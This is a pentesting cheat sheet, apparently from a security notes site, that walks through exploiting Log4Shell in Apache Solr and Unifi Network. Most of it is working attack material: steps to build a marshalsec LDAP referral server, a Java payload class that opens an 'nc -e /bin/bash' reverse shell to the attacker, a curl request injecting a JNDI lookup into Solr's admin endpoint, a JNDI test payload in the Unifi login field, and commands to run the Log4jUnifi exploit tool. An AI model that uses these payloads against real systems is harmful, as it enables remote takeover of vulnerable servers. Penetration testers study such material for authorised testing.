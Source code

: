 ```yaml
---
title: Log4j Pentesting
desc: Log4j has zero-day vulnerabilities to Log4Shell, Log4Unifi.
tags: [Apache, Java, JNDI, Log4j, Log4shell, Maven]
alts: []
render_with_liquid: false
---
```


## Exploit Apache Solr (JNDI)

You need to prepare your four local terminals.

1. **Start LDAP Server on Your Local Terminal 1**

    1. **Install Maven**

        ```sh
        sudo apt install maven
        ```

    2. **Get the Payload**

        Download the repository.

        ```sh
        git clone https://github.com/mbechler/marshalsec.git
        cd marshalsec
        ```

        Then build the marshalsec utility

        ```sh
        mvn clean package -DskipTests
        ```

    3. **Start LDAP Server**

        ```sh
        java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://<your-local-ip>:8000/#Exploit"
        ```

2. **Host the Exploit on Your Local Terminal 2**

    1. **Create the Exploit with Java**

        First, create a new directory and create a new exploit named "Exploit.java" in the directory.  
        Open your favorite editor like vim.

        ```sh
        mkdir exploit
        cd exploit
        vim Exploit.java
        ```

        In editor, enter the following code.

        ```java
        public class Exploit {
        static {
            try {
                java.lang.Runtime.getRuntime().exec("nc -e /bin/bash <your-local-ip> <your-local-listener-port>");
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
        }
        ```

    2. **Compile the Payload**

        ```sh
        javac Exploit.java -source 8 -target 8
        ```

    3. **Start Web Server to Host the Payload**

        ```sh
        python3 -m http.server 8000
        ```

3. **Open Listener on Your Local Terminal 3**

    ```sh
    nc -lvnp <your-local-listener-port>
    ```

4. **Access the Target Apache Solr Admin UI**

    ```sh
    curl 'http://<target-ip>:<target-port>/solr/admin/cores?foo=$\{jndi:ldap://<your-local-ip>:1389/Exploit\}'
    ```

<br />

## Exploit Unifi Network using Log4Unifi

**Log4Unifi** is an exploitation Log4j tool in **Unifi Network**.

1. **Test the Vulnerability in the Target Web Page**

    ```sh
    curl -i -s -k -X POST -H $'Host: vulnerable.com:8443' -H $'Content-Length: 104' --data-binary $'{\"username\":\"a\",\"password\":\"a\",\"remember\":\"${jndi:ldap://9ulral.dnslog.cn:1389/o=tomcat}\",\"strict\":true}' $'https://<target-ip>:8443/api/login'
    ```

2. **Open Listener on Your Local Machine**

    ```sh
    nc -lvnp 4444
    ```

3. **Exploit**

    Download the exploit from [the repository](https://github.com/puzzlepeaches/Log4jUnifi){:target="_blank"}{:rel="noopener"}.

    ```sh
    git clone https://github.com/puzzlepeaches/Log4jUnifi
    cd Log4Unifi
    ```

    Exploit

    ```sh
    python exploit.py -u https://<target-ip>:8443 -i <your-local-ip> -p 4444
    ```

Reference: [https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi](https://www.sprocketsecurity.com/blog/another-log4j-on-the-fire-unifi){:target="_blank"}{:rel="noopener"}

